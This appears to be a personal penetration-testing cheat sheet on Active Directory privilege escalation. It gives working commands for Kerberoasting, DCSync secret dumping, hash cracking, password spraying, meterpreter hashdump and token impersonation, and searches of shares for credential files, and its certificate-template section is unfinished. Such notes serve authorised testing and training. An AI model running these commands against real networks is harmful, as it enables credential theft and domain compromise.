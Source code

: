 # Active Directory PrivEsc

## Introduction

## Tools

#### Bloodhound and Sharphound

[Sharphound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) is the collector that gathers all the information abnout the 
network and compresses it into a zip file. You can then import this data and view a map of the AD domain. This very import to see weak points
like DCsyncs, Usernames, Trust 


#### Crackmapexec


#### Empire and Starkiller


Rubeus, Seatbelt, Mimikatz...

#### Hashcat/JtR


`hashcat -m 13100 -a 0 hash.txt rockyou.txt`


#### Impacket

Kerberoasting 
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip $IP $DOMAIN.local/$USER:$PASSWORD -request
```
Exploit DCSync Privileges
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip $IP $DOMAIN/$USER@$IP
```

#### Kerbrute

You want to target the subnet and then as you laterally move through the network the Adminstrators and DCs.
`crackmapexec smb $IP -u users.txt -p passes.txt`

#### Metasploit and Proxychains

Metasploit combined with proxychains can used to pivot and access segmented sections of network.
The shells create route through then inaccessable parts of the network can be mapped beyond the shell's address.
To proxy through the network see sections on [proxychains in proxies]() and [metasploit autoroute and socks5 server](). 

Due to Trusts, pivoting in required to hop to the connection between Domains. 
Trust can be: 
1. Directional - The direction of the trusts flows from a trusting domain to a trusted domain.
1. Transitive - The trust relationship expands beyond just two domains to include other trusted domains.

If inclined meterpreter and its commands:
```meterpreter

migrate 	# Don't forget to migrate to better processes as processes die: lsass.exe
hashdump

use incognito
list_token -u
impersonate_token $ TOKEN

```

#### Powerview
PowerView "is a powershell tool to gain network situational awareness one Windows domains."
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Due to AD commands are a restricted to DCs and some(times) Adminstrators. 
Get PowerView on the box, you need some help.
```
. .\PowerView.ps1				# import PowerView
Import Module PowerView.ps1			
Get-NetDomain					# Like ADDomain but lists less information
Get-NetDomainController				# List all Domain Controller
Get-NetForest					# like AdForest
Get-NetDomainTrust				# like NetDomainTrust

Find-InterestingDomainShareFile
-CheckAccess
*password*
*sensitive*
*admin*
*login*
*secret*
*unattend*.xml
*vmdk
*creds*
*credential*
*.config
```


## General Enumeration

```
ipconfig /displaydns	# Get DC ip
Get-ADForest | Select-Object Domains								# Lists all Domains in Forest
Get-ADTrust -Filter * | Select-Object Direction,Source,Target					# List trust information
dsquery group -name "Domain Admins" | dsget group -expand -members				# Query for all DCs
Get-ADDomain | Select-Object NetBIOSName, DNSRoot, InfrastructureMaster				# List all DCs
Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description.length -gt 8 } 	# Searching AD replace *!
```



#### AD Certificate Exploitation Enumeration:
Terminology:

PKI                     - Public Key Infrastructure is a system that manages certificates and public key encryption
AD CS                   - Active Directory Certificate Services is Microsoft's PKI implementation which usually runs on domain controllers
CA                      - Certificate Authority is a PKI that issues certificates
Certificate Template    - a collection of settings and policies that defines how and when a certificate may be issued by a CA
CSR                     - Certificate Signing Request is a message sent to a CA to request a signed certificate
EKU                     - Extended/Enhanced Key Usage are object identifiers that define how a generated certificate may be us

```powershell
certutil -v -template > cert_templates.txt
```

BEWARE VULNERABLITY != condition for PrivEsc, Human intervention from admins and domain controllers
YOU WANT TO FIND ALL THREE:
foreach Template[X] find toxic parametre: ##

       ONE PARAMETRE THAT HAS THE FOLLOWING:


1. Relevent Permissions

A template where we have the relevant permissions to request the certificate or where we have an account with those permissions.
This template, our user has either Allow Enroll or Allow Full Control # Probably never find the latter
Template permissions are MOSTLY assigned by GROUP 
```powershell
net user <username> /domain
```
Look for these groups:
Domain Users - This means in most cases that any authenticated users can request the certificate
Domain Computers - This means that the machine account of a domain-joined host can request the certificate. If we have admin rights over any machine, we can request the certificate on behalf of the machine account

2. Client Authentication
A template that allows client authentication, meaning we can use it for Kerberos authentication
Review EKU properties of the template to find the words Client Authentication

3. Client Specifies Subject Alternative Name (SAN)
A template that allows us to alter the subject alternative name (SAN)
Usually a url that we then encrypt, 
```powershell
findstr "CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT" 
```
If  CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT = 1 we can specify the SAN ourselves


# TODO scripting 
!! Line numbers /N
```powershell
find cert_template.txt "Allow Enroll"
# find cert_template.txt "Allow Full Control"
find cert_template.txt "Client Authentication"
find cert_template.txt "CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT"
```
put line numbers in an array, compare shortest with the others
if arrEnroll[i] is in a range of (+10 or -10) of arrAuth[j]

